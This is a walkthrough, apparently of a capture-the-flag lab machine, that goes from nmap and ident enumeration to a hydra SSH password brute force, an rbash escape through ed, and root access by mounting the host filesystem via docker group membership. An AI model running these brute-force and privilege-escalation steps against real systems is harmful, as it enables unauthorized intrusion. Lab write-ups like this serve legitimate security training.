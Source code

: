 First Enumeration with nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v <IP> -Pn`

```
# Nmap 7.93 scan initiated Fri Dec 30 07:22:03 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.108.60
Nmap scan report for 192.168.108.60
Host is up (0.16s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
113/tcp   open   ident
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 30 07:22:40 2022 -- 1 IP address (1 host up) scanned in 36.84 seconds
```

Good we know ports that are available, let's run nmap default scripts to know th services running on it

```
# Nmap 7.93 scan initiated Fri Dec 30 07:24:48 2022 as: nmap -sC -sV -oN normal.tcp -p 22,53,113,8080,10000 -Pn 192.168.108.60                                 [37/40]
Nmap scan report for 192.168.108.60
Host is up (0.32s latency).                                                        
                                                                                   
PORT      STATE  SERVICE           VERSION                                
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:                                                                     
|   2048 754c0201fa1e9fcce47b52feba3685a9 (RSA)                           
|   256 b76f9c2bbffb0462f418c938f43d6b2b (ECDSA)                          
|_  256 987fb640cebbb557d5d13c65727487c3 (ED25519)                        
|_auth-owners: root                                                                
113/tcp   open   ident             FreeBSD identd                         
|_auth-owners: nobody                                                              
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-title: Redmine                                                              
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)               
| http-robots.txt: 4 disallowed entries                                            
|_/issues/gantt /issues/calendar /activity /search                        
10000/tcp open   snet-sensor-mgmt?                                                 
| fingerprint-strings:                                                             
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSe
ssionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:  
|     HTTP/1.1 400 Bad Request                                                     
|     Connection: close                                                            
|   FourOhFourRequest:                                                             
|     HTTP/1.1 200 OK                                                              
|     Content-Type: text/plain                                                     
|     Date: Fri, 30 Dec 2022 06:25:07 GMT                                 
|     Connection: close                                                            
|     Hello World                                                                  
|   GetRequest, HTTPOptions:                                                       
|     HTTP/1.1 200 OK                                                                                                                                                 
|     Content-Type: text/plain
|     Date: Fri, 30 Dec 2022 06:24:57 GMT                                                                                                                             
|     Connection: close                                                                                                                                               
|_    Hello World
|_auth-owners: eleanor                                                             
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-ser
vice :
SF-Port10000-TCP:V=7.93%I=7%D=12/30%Time=63AE8439%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Fri,\x2030\x20Dec\x202022\x2006:24:57\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Fri,\x2030\x20Dec\x20202
SF:2\x2006:24:57\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TLSSession
SF:Req,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,71,"
SF:HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Fri,\
SF:x2030\x20Dec\x202022\x2006:25:07\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:Hello\x20World\n")%r(LPDString,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LDAPBindReq,2F,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(SI
SF:POptions,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close
SF:\r\n\r\n")%r(LANDesk-RC,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(TerminalServer,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 30 07:25:45 2022 -- 1 IP address (1 host up) scanned in 57.24 seconds
```

Now we know what services are running, let's start by enumerating port 113, ident.
ident-user-enum is a simple PERL script to query the ident service (113/TCP) in order to determine the owner of the process listening on each TCP port of a target system.
This can help to prioritise target service during a pentest (you might want to attack services running as root first).  Alternatively, the list of usernames gathered can be used for password guessing attacks on other network services.
How to install: `sudo apt-get install ident-user-enum`. let run it againt the target and see what we get.

`ident-user-enum <IP> 22 113 8080 10000`

![image](https://user-images.githubusercontent.com/87468669/210043364-bc559f23-acb7-466f-8ec2-1c21bce5515f.png)

cool we can see the available users, which is `root & eleanor` let's bruteforce the ssh password for user eleanor using hydra.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Peppo]
└─$ hydra -l eleanor -P /usr/share/wordlists/rockyou.txt 192.168.108.60 -t 10 ssh -e nsr
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-30 08:30:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344402 login tries (l:1/p:14344402), ~1434441 tries per task
[DATA] attacking ssh://192.168.108.60:22/
[22][ssh] host: 192.168.108.60   login: eleanor   password: eleanor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-30 08:30:41
```

Bull's eye we got the password, let's ssh.

![image](https://user-images.githubusercontent.com/87468669/210045797-36066132-c2dc-40a5-9b7c-32e9ae4de3e4.png)

Logged in ssh, now let's escalate privs 

![image](https://user-images.githubusercontent.com/87468669/210173315-a78af789-df7a-46d4-ba0e-612bd485e1fd.png)

Omg we have a restricted shell... Let's break out of the rbash

```
eleanor@peppo:~$ ed
!'/bin/bash'
eleanor@peppo:~$ id
bash: id: command not found
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin
eleanor@peppo:~$ 
eleanor@peppo:~$ export PATH=$PATH:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
eleanor@peppo:~$ 
```

![image](https://user-images.githubusercontent.com/87468669/210173463-f1ab6fab-106c-42de-8f68-30715dfbc6e5.png)

Now we broke out of rbash, And typing the command `id` we can see the user eleanor is in the docker group let's escalate the docker to get root.

```
eleanor@peppo:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                    NAMES
326cfee15738        postgres            "docker-entrypoint.s…"   2 years ago         Up 4 months         0.0.0.0:5432->5432/tcp   postgres
71aa857fe988        redmine             "/docker-entrypoint.…"   2 years ago         Up 4 months         0.0.0.0:8080->3000/tcp   redmine
eleanor@peppo:~$ docker run -v /:/mnt --rm -it redmine chroot /mnt bash
```

![image](https://user-images.githubusercontent.com/87468669/210173661-0c22276b-9016-4f3f-b0e8-536c8dfc1ba0.png)

Boom!!! we got root🤠😎
